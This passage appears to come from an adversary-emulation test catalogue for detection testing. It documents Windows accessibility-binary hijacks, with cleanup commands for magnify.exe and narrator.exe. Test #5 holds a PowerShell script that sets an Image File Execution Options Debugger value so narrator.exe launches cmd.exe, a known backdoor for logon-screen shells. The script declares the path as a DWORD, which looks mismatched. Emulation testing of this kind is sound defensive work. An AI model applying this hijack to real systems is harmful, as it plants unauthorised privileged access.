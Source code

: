 ```
```

#### Cleanup Commands:
```
reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\magnify.exe" /v Debugger /f
```





<br/>
<br/>

## Atomic Test #5 - Attaches Command Prompt As Debugger To Process - narrator
This allows adversaries to execute the attached process

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| target_executable | File You Want To Attach cmd To | String | narrator.exe|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 
```
$registryPath = "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\narrator.exe"
$Value = "C:\windows\system32\cmd.exe"
$Name = "Debugger"
IF(!(Test-Path $registryPath))
 {
  New-Item -Path $registryPath -Force
  New-ItemProperty -Path $registryPath -Name $name -Value $Value -PropertyType DWORD -Force
 }
ELSE
 {
  New-ItemProperty -Path $registryPath -Name $name -Value $Value
 }
```

#### Cleanup Commands:
```
reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\narrator.exe" /v Debugger /f
```





